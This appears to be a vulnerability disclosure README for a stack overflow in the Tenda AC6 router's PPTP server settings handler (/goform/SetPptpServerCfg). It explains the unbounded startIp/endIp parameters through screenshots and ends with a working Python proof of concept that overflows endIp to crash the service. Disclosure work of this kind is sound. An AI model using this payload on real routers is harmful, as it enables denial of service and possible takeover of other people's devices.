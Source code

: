 # AC6_Stack_overflow







#### Describe

​	The vulnerability lies in the setting of PPTP service / goform / setpptpservercfg in Tenda AC6 httpd component. If the length of startip and endip parameters is not well limited, it will lead to stack overflow.

#### Detail

​	Https form formSetPPTPServer fuction in IDA view

<img src="./img/image-20210916182726736.png" alt="image-20210916182726736" style="zoom:50%;" />

<img src="./img/image-20210916183154601.png" alt="image-20210916183154601" style="zoom:50%;" />

​	Due to the pointer defined in the function, the values of the startip parameter and endip parameter will be stored on the stack, and the length is not limited, resulting in a vulnerability

#### TEST

<img src="./img/image-20210916183755046.png" alt="image-20210916183755046" style="zoom:50%;" />

​		Grab HTTP packets

<img src="./img/image-20210916183819454.png" alt="image-20210916183819454" style="zoom:50%;" />

 	Parameterize request 

<img src="./img/image-20210916184146710.png" alt="image-20210916184146710" style="zoom:50%;" />

​	can see the service crash

<img src="./img/image-20210916184102459.png" alt="image-20210916184102459" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"
payload = "a"*0x9c+"bbbb"
data={
	"serverEn":"1",
	"startIp":"100.0.0.100",
	"endIp":"100.0.0.200"+payload,
	"mppe":"1",
	"mppeOp":"40"
}
headers={
	"Host":"1192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/pptp_server.html?random=0.7706434999271096&",
	"Upgrade-Insecure-Requests":"1"
}
response = requests.request("POST", url, headers=headers, data=data)
```



